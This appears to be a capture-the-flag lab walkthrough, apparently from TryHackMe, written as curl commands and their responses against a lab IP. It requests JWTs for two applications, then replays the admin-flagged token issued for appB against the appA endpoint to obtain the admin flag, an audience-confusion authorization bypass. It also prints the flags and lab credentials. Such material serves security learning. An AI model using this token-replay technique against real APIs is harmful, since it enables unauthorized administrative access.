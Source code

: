 {
  "message": "Welcome admin, you are an admin, here is your flag: THM{f592dfe2-ec65-4514-a135-70ba358f22c4}"
}

'{ "username" : "user", "password" : "password7", "application" : "appA"}'
'{ "username" : "user", "password" : "password7", "application" : "appB"}'

curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password7", "application" : "appA" }' http://10.10.34.220/api/v1.0/example7
{
  "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MCwiYXVkIjoiYXBwQSJ9.sl-84cMLYjxsD7SCySnnv3J9AMII9NKgz0-0vcak9t4"
}

curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password7", "application" : "appB" }' http://10.10.34.220/api/v1.0/example7
{
  "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MSwiYXVkIjoiYXBwQiJ9.jrTcVTGY9VIo-a-tYq_hvRTfnB4dMi_7j98Xvm-xb6o"
}

curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MCwiYXVkIjoiYXBwQSJ9.sl-84cMLYjxsD7SCySnnv3J9AMII9NKgz0-0vcak9t4' http://10.10.34.220/api/v1.0/example7_appA?username=admin

{
  "message": "Unauthorized, you are not an admin"
}


curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MSwiYXVkIjoiYXBwQiJ9.jrTcVTGY9VIo-a-tYq_hvRTfnB4dMi_7j98Xvm-xb6o' http://10.10.34.220/api/v1.0/example7_appB?username=admin

{
  "message": "Welcome admin, you are an admin, but there is no flag for you here"
}

curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MSwiYXVkIjoiYXBwQiJ9.jrTcVTGY9VIo-a-tYq_hvRTfnB4dMi_7j98Xvm-xb6o' http://10.10.34.220/api/v1.0/example7_appA?username=admin

{
  "message": "Welcome admin, you are an admin, here is your flag: THM{f0d34fe1-2ba1-44d4-bae7-99bd555a4128}"
}
